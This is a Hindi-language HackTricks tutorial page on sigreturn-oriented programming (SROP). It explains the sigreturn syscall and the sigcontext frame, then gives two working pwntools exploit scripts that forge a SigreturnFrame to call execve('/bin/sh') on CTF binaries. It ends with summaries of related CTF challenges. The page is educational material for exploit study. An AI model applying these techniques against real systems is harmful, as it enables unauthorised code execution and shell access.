 # SROP - सिगरिटर्न-ओरिएंटेड प्रोग्रामिंग

<details>

<summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **PRs सबमिट** करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूल जानकारी

**`Sigreturn`** एक विशेष **सिस्टम कॉल** है जो मुख्य रूप से इसका उपयोग करता है कि सिग्नल हैंडलर ने अपना कार्य समाप्त कर दिया है को साफ करें। सिग्नल्स एक कार्यक्रम को ऑपरेटिंग सिस्टम द्वारा भेजे गए विघटनों को सूचित करने के लिए भेजे जाने वाले अवरोध हैं। जब कोई कार्यक्रम एक सिग्नल प्राप्त करता है, तो वह अपने वर्तमान कार्य को रोक देता है ताकि वह सिग्नल हैंडलर के साथ सिग्नल का समाचार कर सके, जो सिग्नल्स के साथ निपुणता से निपटने के लिए डिज़ाइन की गई विशेष फ़ंक्शन है।

सिग्नल हैंडलर समाप्त होने के बाद, कार्यक्रम को **अपनी पिछली स्थिति पुनः आरंभ करने की आवश्यकता होती है** जैसे कि कुछ भी नहीं हुआ है। यहाँ **`sigreturn`** काम आता है। यह कार्यक्रम को **सिग्नल हैंडलर से वापस लौटने** और सिग्नल हैंडलर द्वारा उपयोग किए गए स्टैक फ्रेम (जो फ़ंक्शन कॉल और स्थानीय चर रखता है) को साफ करके कार्यक्रम की स्थिति को पुनर्स्थापित करने में मदद करता है।

रोचक भाग यह है कि **`sigreturn`** कैसे कार्यक्रम की स्थिति को पुनर्स्थापित करता है: यह **सभी सीपीयू के रजिस्टर मानों को स्टैक पर स्टोर करके** करता है। जब सिग्नल अब और नहीं ब्लॉक होता है, **`sigreturn` इन मानों को स्टैक से पॉप** करता है, जिससे सीपीयू के रजिस्टर पुनर्स्थापित हो जाते हैं जैसे कि सिग्नल को हैंडल किया गया था। इसमें स्टैक प्वाइंटर रजिस्टर (आरएसपी), जो वर्तमान स्टैक के शीर्ष को दर्शाता है, भी शामिल है।

{% hint style="danger" %}
एक आरओपी श्रृंखला से सिस्टम कॉल **`sigreturn`** को बुलाना और **स्टैक** में लोड करने के लिए **हमें चाहिए रजिस्ट्री मान** जिन्हें हम चाहेंगे कि यह **कंट्रोल** करें और इसलिए उन रजिस्टर मानों को पुनः स्थापित करने के लिए संभव है और इसके फलस्वरूप **`execve` सिस्टम कॉल** को `/bin/sh` के साथ **कॉल** करने के लिए।
{% endhint %}

ध्यान दें कि यह एक **रेट2सिस्टम के प्रकार** होगा जो अन्य रेट2सिस्टम को कॉल करने के लिए पैराम्स को नियंत्रित करना बहुत आसान बनाता है:

{% content-ref url="../rop-syscall-execv/" %}
[rop-syscall-execv](../rop-syscall-execv/)
{% endcontent-ref %}

यदि आप उत्सुक हैं तो यह है **स्टैक में स्टोर किए गए सिगकॉन्टेक्स्ट संरचना** जिसे बाद में मानों को पुनः प्राप्त करने के लिए स्टैक में स्टोर किया गया है (डायग्राम [**यहाँ से**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)):
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
## उदाहरण

आप यहाँ [**एक उदाहरण पा सकते हैं**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) जहाँ साइनरिटर्न कॉल ROP के माध्यम से निर्मित किया गया है (जिसमें rxa में मान `0xf` डाला गया है), हालांकि यहाँ से अंतिम उत्पीड़न है:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
यहाँ से [**एक्सप्लॉइट भी देखें**](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html) जहाँ बाइनरी पहले से ही `sigreturn` को कॉल कर रहा था और इसलिए इसे **ROP** के साथ बनाने की आवश्यकता नहीं है:
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## अन्य उदाहरण और संदर्भ

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* एसेम्बली बाइनरी जो **स्टैक पर लिखने** की अनुमति देता है और फिर **`sigreturn`** सिस्कॉल को कॉल करता है। स्टैक पर [**ret2syscall**](../rop-syscall-execv/) लिखना संभव है एक **sigreturn** संरचना के माध्यम से और फ्लैग पढ़ना संभव है जो बाइनरी की मेमोरी में है।
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* एसेम्बली बाइनरी जो **स्टैक पर लिखने** की अनुमति देता है और फिर **`sigreturn`** सिस्कॉल को कॉल करता है। स्टैक पर [**ret2syscall**](../rop-syscall-execv/) लिखना संभव है एक **sigreturn** संरचना के माध्यम से (बाइनरी में स्ट्रिंग `/bin/sh` है)।
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64 बिट, कोई relro नहीं, कोई कैनेरी नहीं, एनएक्स, कोई पाई। `gets` फंक्शन का दुरुपयोग करके सिम्पल बफर ओवरफ्लो जो [**ret2syscall**](../rop-syscall-execv/) करता है। ROP श्रृंखला `/bin/sh` को लिखती है `.bss` में फिर से कॉल करके, यह **`alarm`** फंक्शन का दुरुपयोग करता है ताकि eax को `0xf` पर सेट करें और एक **SROP** को कॉल करने और शैल को चलाने के लिए एक शैल को लिखने के लिए।
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* 64 बिट एसेम्बली प्रोग्राम, कोई relro नहीं, कोई कैनेरी नहीं, एनएक्स, कोई पाई। फ्लो स्टैक में लिखने की अनुमति देता है, कई रजिस्टर को नियंत्रित करता है, और एक सिस्कॉल को कॉल करता है और फिर `exit` को कॉल करता है। चयनित सिस्कॉल एक `sigreturn` है जो रजिस्ट्री सेट करेगा और `eip` को पिछले सिस्कॉल इंस्ट्रक्शन को कॉल करने और `memprotect` को चलाने के लिए सेट करेगा बाइनरी स्पेस को `rwx` और ESP को बाइनरी स्पेस में सेट करेगा। फ्लो का पालन करते हुए, प्रोग्राम फिर से ESP में पढ़ने के लिए कॉल करेगा, लेकिन इस मामले में ESP अगले इंट्रक्शन की ओर पॉइंट करेगा इसलिए शैलकोड पास करने पर यह उसे अगले इंट्रक्शन के रूप में लिखेगा और इसे चलाएगा।
